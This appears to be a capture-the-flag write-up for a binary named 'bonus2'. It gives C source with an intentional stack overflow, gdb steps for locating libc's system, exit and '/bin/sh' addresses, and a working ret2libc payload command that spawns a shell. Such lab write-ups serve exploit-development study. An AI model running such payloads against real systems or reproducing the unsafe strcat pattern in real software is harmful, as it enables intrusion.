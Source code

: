 ```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int lang = 0;

void greetuser(char *user)
{
	char buffer[64];

	if (lang == 1)
	{
		strcpy(buffer, "Hyv\xc3\xa4\xc3\xa4 p\xc3\xa4iv\xc3\xa4\xc3\xa4 ");
	}
	else if (lang == 2)
	{
		strcpy(buffer, "Goedemiddag! ");
	}
	else if (lang == 0)
	{
		strcpy(buffer, "Hello ");
	}
	strcat(buffer, user);
	puts(buffer);
}

int main(int ac, char **av)
{
	char	buffer[72];     //0x28 + 0x20
	char	*env = NULL;

	if (ac != 3)
		return 1;

	memset(buffer, 0, 72);
	strncpy(buffer, av[1], 40);         // Copy first argument 40 bytes
	strncpy(&buffer[40], av[2], 32);    // Copy second argument 32 bytes
	env = getenv("LANG");
	if (env != 0)
	{
		if (memcmp(env, "fi", 2) == 0)
		{
			lang = 1;
		}
		else if (memcmp(env, "nl", 2) == 0)
		{
			lang = 2;
		}
	}

	greetuser(buffer);
	return 0;
}
```

- We know that the offset until reaching eip is 18 character for the second argument we pass to the program



- Find system and exit addresses from libc shared library.

```bash
info proc map
process 13689
Mapped address spaces:

...
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...

Here is where our libc is loaded in memory, let's inspect if we can found system and exit addresses.

(gdb) info function system 
0xb7e6b060  system

(gdb) info function exit
0xb7e5ebe0  exit
```

--- 
- Find the string "/bin/sh" in de libc library

```bash
Now let's find the "/bin/sh" string

(gdb) find 0xb7e2c000,0xb7fcf000,"/bin/sh"
0xb7f8cc58
```

---
- We can now construct a ret2libc payload

```bash
export LANG=fi  # This enable us to write a lot of bytes and let us more input

./bonus2 $(python -c 'print 40 * "A"') $(python -c 'print 18 * "B" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7"')
```